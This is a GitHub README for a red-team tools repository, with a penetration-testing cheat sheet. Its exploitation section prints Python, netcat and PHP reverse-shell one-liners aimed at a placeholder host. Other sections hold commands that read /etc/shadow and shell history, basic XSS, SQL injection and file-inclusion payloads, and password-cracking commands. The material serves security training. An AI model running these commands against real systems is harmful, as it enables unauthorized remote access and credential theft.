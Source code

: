 # 🛠️ Red team tools, tips & tricks

A collection of random custom scripts for penetration testing and red team tasks.

## 📌 Includes

* 🔁 Automation scripts
* 🔍 Reconnaissance tools
* 📡 Scanning utilities
* 💥 Exploitation scripts
* 🩻 Post-exploitation helpers
* 📄 Report generation tools
* 🗒️ Notes & cheat sheets



## 📚 Table of Contents

* [Tips-tricks](#-tips--tricks)
* [Recon & Enumeration](#-recon--enumeration)
* [Exploitation](#-exploitation)
* [Post-Exploitation](#-post-exploitation)
* [Privilege Escalation](#-privilege-escalation)
* [Web Attacks](#-web-attacks)
* [Password Attacks](#-password-attacks)
* [Tools Reference](#-tools-reference)
* [General Notes](#-general-notes)

-----

📂 Repo-Structure
```
red-team-tools/
├── automation/
├── recon/
├── scanning/
├── exploitation/
├── post-exploitation/
├── reporting/
├── utilities/
├── offensive-ops/
└── README.md/
```

---

## 🌟 Tips & tricks



***Find your public IP address right on the terminal***
```
curl -s wtfismyip.com/json | jq
curl ifconfig.me
```

***Automatically install essential hacking & dev tools on a fresh linux install***

\- [Install tools script](https://github.com/80h3m14n/red-team-tools/blob/main/automation/install-tools.sh)


***Encrypting and decrypting files, directories, and text using multiple encryption algorithms***

\- [Encryptz](https://github.com/80h3m14n/encryptz)



***Change Microsoft windows themes & font type***

1. Reg file(run as admin and reboot)
\- [Segoe Print Font](https://github.com/80h3m14n/red-team-tools/blob/main/utilities/segoe-print-font.reg)


\- You can open the file with notepad and change the font according to your preference.


2. Green Powershell
```
$Host.UI.RawUI.ForegroundColor = 'Green'
```


3. Command Prompt color

\- Navigate to Environmental Variables > New User variable
```
Name: prompt
Value: $E[1;30;104m►$E[1;37;104m $P $E[1;94;40m►$E[0m
```


---

## 🔍 Recon & Enumeration

```bash
# DNS Lookup
dig domain.com any +short
host domain.com

# Subdomain fuzzing
ffuf -w subs.txt -u https://FUZZ.target.com

# Nmap full scan
nmap -p- -T4 -A -v target.com
```

---

## 💥 Exploitation

```bash
# Python reverse shell
python3 -c 'import socket,os,pty;s=socket.socket();s.connect(("IP",PORT));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);pty.spawn("/bin/bash")'

# Netcat reverse shell
nc -e /bin/sh IP PORT

# PHP reverse shell
php -r '$sock=fsockopen("IP",PORT);exec("/bin/sh -i <&3 >&3 2>&3");'
```

---

## 🩻 Post-Exploitation

```bash
# Grab users & creds
cat /etc/passwd
cat /etc/shadow
history

# Network info
ip a
netstat -tulpn

# SUID Binaries
find / -perm -4000 -type f 2>/dev/null
```

---

## 🧱 Privilege Escalation

```bash
# Check kernel for exploits
uname -a
linux-exploit-suggester.sh

# Check sudo rights
sudo -l

# Writable files/directories
find / -writable -type f 2>/dev/null
```

---

## 💬 Web Attacks

```bash
# XSS payload
<script>alert('xss')</script>

# SQL Injection test
' OR '1'='1

# Local File Inclusion
../../../../etc/passwd
```

---

## 🔐 Password Attacks

```bash
# Hashcat basic usage
hashcat -m 0 hash.txt rockyou.txt

# John the Ripper
john --wordlist=rockyou.txt hashes.txt

# Zip password crack
fcrackzip -v -u -D -p rockyou.txt file.zip
```

---

## 🧰 Tools Reference

```bash
# Gobuster
gobuster dir -u http://target.com -w wordlist.txt

# Nikto
nikto -h http://target.com

# Burp Suite
# Set proxy to 127.0.0.1:8080 and route traffic from tools
```




## 📝 General Notes
Check for .bak, .old, .zip files on webservers

Default creds go a long way

Look for dev/test/staging endpoints

Don’t sleep on SSRF, IDOR, or misconfigured cloud buckets

Always verify shell stability (TTY, backgrounding)

Additional resources
\- [Roadmaps](https://roadmap.sh/)

---

## 🧾 License

Free to use, share, and modify under the MIT License.


---

## ⚠️ Disclaimer

This repository is strictly for **educational and research** purposes.
I take **no responsibility** for misuse, illegal activity, or any damage caused by these tools.
**Use responsibly. Don't be dumb.**

